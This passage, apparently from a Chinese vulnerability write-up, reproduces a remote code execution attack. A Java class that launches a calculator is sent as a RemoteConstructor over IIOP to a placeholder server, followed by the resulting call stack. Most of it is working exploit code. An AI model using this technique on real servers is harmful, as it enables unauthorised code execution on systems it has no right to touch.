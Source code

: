 ```
package com;

import java.io.IOException;

public class EvilObj `{`

    public EvilObj() `{`
        try `{`
            Runtime.getRuntime().exec("calc");
        `}` catch (IOException var1) `{`
            var1.printStackTrace();
        `}`
    `}`
`}`
```

POC

```
ClassIdentity classIdentity = new ClassIdentity( EvilObj.class);
ClassPool cp = ClassPool.getDefault();
CtClass ctClass = cp.get(EvilObj.class.getName());
ctClass.replaceClassName(EvilObj.class.getName(),  EvilObj.class.getName() + "$" + classIdentity.getVersion());
RemoteConstructor constructor = new RemoteConstructor(
        new ClassDefinition(classIdentity, ctClass.toBytecode()),
        new Object[] `{``}`
);
// 发送 IIOP 协议数据包
Context context = getContext("iiop://ip:port");
context.rebind("hello",constructor);
```

复现结果：

[![](https://p4.ssl.qhimg.com/t018af9c9065bc30653.png)](https://p4.ssl.qhimg.com/t018af9c9065bc30653.png)

以下为简化版调用栈：

```
exec:347, Runtime (java.lang)
&lt;init&gt;:14, SimpleMapEntry$7E80A4E3098E7FB7B109472C77D1D573 (com.tangosol.util)
newInvokeSpecial__L:-1, 1565249093 (java.lang.invoke.LambdaForm$DMH)
reinvoke:-1, 1641862114 (java.lang.invoke.LambdaForm$BMH)
invoker:-1, 222055923 (java.lang.invoke.LambdaForm$MH)
invokeExact_MT:-1, 1593074896 (java.lang.invoke.LambdaForm$MH)
invokeWithArguments:627, MethodHandle (java.lang.invoke)
createInstance:149, ClassDefinition (com.tangosol.internal.util.invoke)
realize:142, RemotableSupport (com.tangosol.internal.util.invoke)
newInstance:122, RemoteConstructor (com.tangosol.internal.util.invoke)
readResolve:233, RemoteConstructor (com.tangosol.internal.util.invoke)
```
